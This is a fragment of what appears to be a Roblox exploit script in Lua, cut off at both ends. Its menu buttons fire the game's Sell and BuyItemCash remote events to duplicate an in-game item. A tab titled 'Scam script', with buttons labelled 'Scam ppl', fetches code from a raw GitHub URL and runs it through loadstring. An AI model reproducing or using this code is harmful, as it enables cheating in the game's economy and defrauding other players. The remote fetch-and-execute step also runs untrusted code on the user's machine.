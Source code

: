 			game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
		end)
		Section:NewButton("Dupe Tulsa Rainbow", "Buy item dupe cash", function()
			local args = {
				[1] = "Tulsa rainbow"
			}

			game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
			local args = {
				[1] = "Tulsa rainbow"
			}

			game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
		end)
		local Tab     = Window:NewTab("Scam script")
		local Section = Tab:NewSection("scam working !!")
		Section:NewButton("Scam 1V", "Scam ppl", function()
			loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
		end)
		Section:NewButton("Scam 2V", "Scam ppl", function()